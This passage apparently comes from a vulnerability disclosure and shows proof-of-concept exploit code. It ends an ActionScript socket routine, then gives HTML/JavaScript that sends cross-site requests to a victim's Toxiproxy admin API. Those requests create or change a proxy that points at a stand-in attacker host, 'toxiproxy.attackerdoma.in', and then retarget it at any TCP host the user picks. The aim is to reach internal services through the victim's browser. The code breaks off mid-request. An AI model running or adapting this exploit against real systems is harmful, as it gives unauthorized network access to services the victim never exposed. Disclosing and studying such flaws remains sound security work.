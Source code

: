 ```actionscript
				socket.writeUTFBytes(msg); 
				socket.addEventListener(Event.CLOSE, closeHandler);
				socket.addEventListener(ProgressEvent.SOCKET_DATA, dataHandler); 
				socket.flush(); 
			} catch (error:Error) { 
				socket.close(); 
				return error.message;
			} 
			return "";
		}
	}
}
```
The HTML/JS for the PoC is as follows:

```html
<!DOCTYPE html>
<html>
	<head>
		<script>
			// Called by flash once loaded
			function onready() {
				// Get access to the flash objects
				let flash = document.getElementById("flash");
				// Get the instance we are exploiting
				let toxiproxy = new URL(prompt("Enter the URL of the toxiproxy instance you would like to CSRF:", "http://localhost:8474"));
				toxiproxy.pathname = "proxies";
				// CSRF creation of the proxy
				fetch(toxiproxy.toString(), {
					method: "POST",
					mode: "no-cors",
					body: JSON.stringify({
						name: "policy",
						listen: "0.0.0.0:7654",
						upstream: "toxiproxy.attackerdoma.in:17654",
						enabled: true
					}),
				}).then(() => {
					// There is a chance the "policy" proxy already exists, if so modify it instead
					toxiproxy.pathname = "proxies/policy"
					return fetch(toxiproxy.toString(), {
						method: "POST",
						mode: "no-cors",
						body: JSON.stringify({
							name: "policy",
							listen: "0.0.0.0:7654",
							upstream: "toxiproxy.attackerdoma.in:17654",
							enabled: true
						}),
					});
				}).then(() => {
					// Once the socket has connected the first time our policy is cached
					window.onsocketclose = () => {
						// Change the proxy to point to the target
						let target = new URL("http://" + prompt("Enter the TCP host/ip pair you would like to connect to:", "localhost:9999"));
						fetch(toxiproxy.toString(), {
							method: "POST",
							mode: "no-cors",
							body: JSON.stringify({
								name: "policy",
								listen: "0.0.0.0:7654",
								upstream: target.host,
```